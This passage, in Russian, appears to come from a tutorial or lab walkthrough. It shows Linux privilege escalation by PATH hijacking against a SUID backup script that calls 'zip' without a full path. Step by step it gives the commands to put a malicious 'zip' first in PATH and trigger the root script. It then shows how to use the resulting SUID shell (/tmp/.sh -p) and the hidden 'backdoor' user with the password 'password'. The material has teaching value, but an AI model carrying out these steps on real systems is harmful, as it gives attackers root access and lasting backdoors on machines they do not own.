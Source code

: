 
#### Шаг 3: Настройка окружения
```bash
# Добавляем нашу директорию в начало PATH
export PATH="$HOME/.cache/.bin:$PATH"

# Проверяем новый PATH
echo $PATH
# /home/user/.cache/.bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Проверяем приоритизацию
which zip
# /home/user/.cache/.bin/zip  <- Наша версия!
```

**Пояснения:**
1. При вызове `zip` система ищет исполняемый файл в директориях PATH по порядку
2. Директория `/home/user/.cache/.bin` проверяется первой
3. Находится наш вредоносный скрипт вместо системного `/usr/bin/zip`

---

#### Шаг 4: Запуск уязвимого скрипта
```bash
# Запускаем SUID-скрипт от root
/usr/local/bin/backup_reports
# Backup completed successfully  <- Всё выглядит нормально!
```
**Пояснения:**
1. Python-скрипт вызывает `subprocess.call(["zip", ...])`
2. Система ищет `zip` в PATH, находит `/home/user/.cache/.bin/zip`
3. Вредоносный скрипт выполняется с правами root (наследует SUID)
4. Выполняется полезная нагрузка:
   - Создается SUID-shell `/tmp/.sh`
   - Добавляется пользователь `backdoor`
5. Вызывается настоящий `/usr/bin/zip` для создания архива

---

#### Шаг 5: Получение доступа
**Варианты получения привилегированнного доступа:**
- **Через SUID-shell**
    ```bash
    /tmp/.sh -p  # Флаг -p сохраняет привилегии
    
    whoami  # root
    id
    # uid=1000(user) gid=1000(user) euid=0(root) egid=0(root)
    ```
- **Через скрытого пользователя**
    ```bash
    su - backdoor
    Password: password  # Пароль, установленный в эксплойте
    